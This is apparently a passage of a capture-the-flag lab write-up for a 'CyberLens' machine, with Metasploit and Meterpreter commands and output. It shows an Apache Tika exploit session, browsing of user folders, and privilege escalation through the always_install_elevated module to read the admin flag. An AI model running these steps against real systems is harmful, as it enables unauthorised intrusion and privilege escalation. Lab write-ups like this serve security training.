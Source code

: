 ```
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  8192  dir   2024-05-29 04:46:04 +0100  Administrator
040777/rwxrwxrwx  0     dir   2018-09-15 08:28:48 +0100  All Users
040777/rwxrwxrwx  8192  dir   2023-11-25 07:31:22 +0000  CyberLens
040555/r-xr-xr-x  8192  dir   2021-03-17 14:58:07 +0000  Default
040777/rwxrwxrwx  0     dir   2018-09-15 08:28:48 +0100  Default User
040555/r-xr-xr-x  4096  dir   2018-12-12 07:45:15 +0000  Public
100666/rw-rw-rw-  174   fil   2018-09-15 08:16:48 +0100  desktop.ini

meterpreter > cd CyberLens\\
meterpreter > cd Desktop\\
meterpreter > cat user.txt
```

2. What is the admin flag? 

```
msf6 exploit(windows/http/apache_tika_jp2_jscript) > sessions
msf6 exploit(windows/local/always_install_elevated) > use multi/recon/local_exploit_suggester
msf6 exploit(windows/http/apache_tika_jp2_jscript) > use exploit/windows/local/always_install_elevated
msf6 exploit(windows/local/always_install_elevated) > set SESSION 1
msf6 exploit(windows/local/always_install_elevated) > exploit
...
meterpreter > pwd
C:\Windows\system32
meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd Users\\
meterpreter > cd Administrator\\
meterpreter > \cd Desktop\\
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode            Size  Type  Last modified             Name
----            ----  ----  -------------             ----
100666/rw-rw-r  527   fil   2016-06-21 16:36:17 +010  EC2 Feedback.website
w-                          0
100666/rw-rw-r  554   fil   2016-06-21 16:36:23 +010  EC2 Microsoft Windows Gu
w-                          0                         ide.website
100666/rw-rw-r  24    fil   2023-11-27 19:50:45 +000  admin.txt
w-                          0
100666/rw-rw-r  282   fil   2021-03-17 15:13:27 +000  desktop.ini
w-                          0

meterpreter > cat admin.txt
```



